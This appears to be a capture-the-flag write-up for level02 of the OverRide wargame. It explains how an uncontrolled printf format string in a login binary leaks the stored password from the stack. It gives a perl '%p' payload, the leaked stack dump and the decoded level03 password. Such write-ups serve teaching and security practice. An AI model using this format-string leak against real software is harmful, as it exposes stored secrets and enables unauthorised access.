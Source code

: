 # level02

The program reads a username and a password from stdin, then it compares the password with the flag read from `/home/users/level03/.pass`. If they don't match, the binary will print username by calling `printf(username)` directly with our input username as format string.

## Step 1. Find real password in stack
```
level02@OverRide:~$ perl -e 'print "%p "x30 . "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
We can use the uncontrolled format string to show us the values of stack which contains the password data. `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d` is the password in little-endian format.

## Step 2. Convert little-endian password to original token
```
$ ./decrypt.pl 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
